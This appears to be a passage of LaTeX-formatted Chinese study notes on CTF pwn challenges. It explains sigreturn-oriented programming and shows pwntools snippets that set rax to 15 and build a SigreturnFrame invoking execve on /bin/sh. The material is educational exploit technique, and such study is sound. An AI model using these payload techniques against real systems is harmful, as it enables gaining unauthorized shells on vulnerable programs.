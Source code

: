 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\textbf{a) 用 \texttt{read} 的回傳值} \texttt{read()} 的回傳值 =
實際讀到的 byte 數，而 syscall 的回傳值就在 \texttt{rax}。 → 只要讓那次
\texttt{read()} 恰好回傳 15 bytes。\textbf{（pwn1 用這招）}

\textbf{b) 用 \texttt{pop\ \allowbreak{}rax\ \allowbreak{};\ \allowbreak{}ret}}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RAX) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{15}\NormalTok{) }\OperatorTok{+}\NormalTok{ p64(SYSCALL\_RET)}
\end{Highlighting}
\end{Shaded}

\paragraph{\texorpdfstring{11.4 pwntools 的
\texttt{SigreturnFrame}}{11.4 pwntools 的 SigreturnFrame}}\label{pwntools-ux7684-sigreturnframe}

\begin{quote}
※注意 用 \texttt{SigreturnFrame()} 之前一定要先設
\texttt{context.\allowbreak{}arch\ \allowbreak{}=\ \allowbreak{}\textquotesingle{}\allowbreak{}amd64\textquotesingle{}\allowbreak{}} （或
\texttt{context.\allowbreak{}clear(arch=\textquotesingle{}\allowbreak{}amd64\textquotesingle{}\allowbreak{})}），否則
pwntools 會直接報
\texttt{{[}ERROR{]}\ \allowbreak{}kernel\ \allowbreak{}architecture\ \allowbreak{}must\ \allowbreak{}be\ \allowbreak{}specified}。
這也是兩支 exploit 開頭都有那行的原因。
\end{quote}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{frame }\OperatorTok{=}\NormalTok{ SigreturnFrame()}
\NormalTok{frame.rax }\OperatorTok{=} \DecValTok{59}
\NormalTok{frame.rdi }\OperatorTok{=}\NormalTok{ binsh\_addr}
\NormalTok{frame.rsi }\OperatorTok{=} \DecValTok{0}
\NormalTok{frame.rdx }\OperatorTok{=} \DecValTok{0}
\NormalTok{frame.rip }\OperatorTok{=}\NormalTok{ syscall\_ret\_addr}
\NormalTok{frame.rsp }\OperatorTok{=}\NormalTok{ some\_valid\_addr}
\NormalTok{payload }\OperatorTok{+=} \BuiltInTok{bytes}\NormalTok{(frame)}
\end{Highlighting}
\end{Shaded}

這裡有三個名字很容易混，先記這張表（完整版與實測位址見
\texttt{../\allowbreak{}pwn1/\allowbreak{}notes.\allowbreak{}md} §5.1、§5.3）：
\end{document}
